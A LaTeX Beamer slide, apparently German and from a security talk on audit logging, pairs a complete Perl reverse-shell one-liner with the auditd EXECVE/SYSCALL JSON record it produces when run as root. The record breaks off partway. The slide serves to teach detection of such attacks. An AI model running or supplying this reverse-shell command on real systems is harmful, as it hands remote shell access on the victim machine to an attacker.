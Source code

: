 \documentclass[xcolor={dvipsnames},aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{So kann's aussehen}
\tiny
\begin{semiverbatim}
{\color{orange}perl -e} 'use Socket;\$i="{}{\color{red}10.0.0.1}"{};\$p={\color{red}1234};socket(S,PF_INET,SOCK_STREAM,getprotobyname("{}tcp"));
         if(connect(S,sockaddr_in(\$p,{\color{blue}inet_at}on(\$i))))\{open(STDIN,"{}>\&S");open(STDOUT,"{}>\&S");
         open(STDERR,"{}>\&S");exec("{}{\color{red}/bin/sh -i}");\};'
\end{semiverbatim}  
\vspace{-3ex}
\hrulefill
\vspace{-2ex}
\begin{semiverbatim}
\{"{}ID"{}:"{}1626611363.720:348501"{},
 "{}SYSCALL"{}:\{"{}arch"{}:"{}0xc000003e"{},"{}syscall"{}:59,"{}success"{}:"{}yes"{},"{}exit"{}:0,"{}items"{}:3,"{}ppid"{}:722076,
    "{}pid"{}:724395,"{}auid"{}:1000,"{}uid"{}:0,"{}gid"{}:0,"{}euid"{}:0,"{}suid"{}:0,"{}fsuid"{}:0,"{}egid"{}:0,"{}sgid"{}:0,"{}fsgid"{}:0,
    "{}tty"{}:"{}pts3"{},"{}ses"{}:3,"{}comm"{}:"{}perl"{},"{}exe"{}:"{}/usr/bin/perl"{},"{}subj"{}:"{}=unconfined"{},"{}key"{}:null,"{}ARGV"{}:[
       "{}0x55c094deb5c0"{},"{}0x55c094dea770"{},"{}0x55c094dbf1b0"{},"{}0xfffffffffffff286"{}]\},
 "{}EXECVE"{}:\{"{}argc"{}:3,"{}ARGV"{}:[
    "{}{\color{orange}perl}"{},"{}{\color{orange}-e}"{},
    "{}use Socket;\$i=\textbackslash"{}{\color{red}10.0.0.1}\textbackslash"{};\$p={\color{red}1234};socket(S,PF_INET,SOCK_STREAM,getprotobyname(\textbackslash"{}tcp\textbackslash"{}));if(connect(S,sockaddr_in(\$p,
     {\color{blue}inet_at}on(\$i))))\{open(STDIN,\textbackslash"{}>\&S\textbackslash"{});open(STDOUT,\textbackslash"{}>\&S\textbackslash"{});open(STDERR,\textbackslash"{}>\&S\textbackslash"{});exec(\textbackslash"{}{\color{red}/bin/sh -i}\textbackslash"{});\};"{}]\},
 "{}CWD"{}:\{"{}cwd"{}:"{}/root"{}\},
 "{}PATH"{}:[
    \{"{}item"{}:0,"{}name"{}:"{}/usr/bin/perl"{},"{}inode"{}:401923,"{}dev"{}:"{}fd:01"{},"{}mode"{}:"{}0o100755"{},"{}ouid"{}:0,"{}ogid"{}:0,"{}rdev"{}:"{}00:00"{},
     "{}nametype"{}:"{}NORMAL"{},"{}cap_fp"{}:"{}0x0"{},"{}cap_fi"{}:"{}0x0"{},"{}cap_fe"{}:0,"{}cap_fver"{}:"{}0x0"{},"{}cap_frootid"{}:"{}0"{}\},
    \{"{}item"{}:1,"{}name"{}:"{}/usr/bin/perl"{},"{}inode"{}:401923,"{}dev"{}:"{}fd:01"{},"{}mode"{}:"{}0o100755"{},"{}ouid"{}:0,"{}ogid"{}:0,"{}rdev"{}:"{}00:00"{},
     "{}nametype"{}:"{}NORMAL"{},"{}cap_fp"{}:"{}0x0"{},"{}cap_fi"{}:"{}0x0"{},"{}cap_fe"{}:0,"{}cap_fver"{}:"{}0x0"{},"{}cap_frootid"{}:"{}0"{}\},
    \{"{}item"{}:2,"{}name"{}:"{}/lib64/ld-linux-x86-64.so.2"{},"{}inode"{}:404797,"{}dev"{}:"{}fd:01"{},"{}mode"{}:"{}0o100755"{},"{}ouid"{}:0,"{}ogid"{}:0,"{}rdev"{}:"{}00:00"{},

\end{semiverbatim}
\end{frame}
\end{document}
